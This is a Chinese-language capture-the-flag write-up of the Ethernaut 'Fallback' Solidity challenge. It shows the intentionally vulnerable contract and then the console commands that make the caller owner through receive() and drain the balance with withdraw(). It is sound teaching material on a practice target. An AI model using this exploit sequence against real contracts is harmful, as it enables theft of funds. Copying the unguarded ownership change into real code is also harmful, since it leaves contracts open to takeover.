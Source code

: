 A-Ethernaut-CTF
------------------------

Day2 2024.08.30

FallBack
------------------------
1. 獲得合約所有權
2. 將餘額用成 0

題目：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

解題：

1. 先確定怎麼變成 owner
  在 constructor 一開始部署合約就會變成 `owner`，另外 `contributions[msg.sender]` 會有初始資金

  ```solidity
  constructor() {
      owner = msg.sender;
      contributions[msg.sender] = 1000 * (1 ether);
  }
  ```
  p.s. msg.sender 為送出交易的人

2. 在確定 owner 所有權的控制

  ```solidity
    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }
  ```
3.哪裡可以轉錢，有沒有設定 owner，沒有的話直接轉就結束了，目標攻破 `withdraw()`

  恩... 有使用

    ```solidity
      function withdraw() public onlyOwner {
          payable(owner).transfer(address(this).balance);
      }
    ```

4.找一下哪裡會改變 owner ... ` owner =xxxxx`

兩個地方

```solidity
    // 誰最有錢就是 owner （成本太高了... 如果有金錢的力量...)
    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    /* 送出的金額 > 0 和 contributions[msg.sender] > 0 就可以變成 owner 而 receive event 是 solidity 的特殊語法，就是當 function 沒有名稱時，就會被當作 fallback function 直接呼叫(看起來問題就在這裡) */

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
```

5.攻擊想法
- 先讓 contributions[msg.sender] > 0
- 透過 `receive()` 變成 owner
- 取走所有的錢


過程：

1. 按下 Get New Instance 不然會有錯誤
![](./images/2-1.png)
2. Instance 成功
![](./images/2-2.png)

3. 透過 contribute() 送出 0.0001 ether

```solidity
await contract.contribute({value: toWei("0.000001")})
```
![](./images/2-3.png)

4. 確認 owner 是誰，觸發 receive() 變成 owner

```solidity
await contract.owner()
await contract.sendTransaction({value: toWei("0.000001")})
```

![](./images/2-4.png)


5. 確認 owner 是不是自己

```solidity
await contract.owner()
```
![](./images/2-5.png)

6. 取走所有的錢

```solidity
await contract.withdraw()
await getBalance(instance)
```

![](./images/2-6.png)

7. 題目完成
![](./images/2-7.png)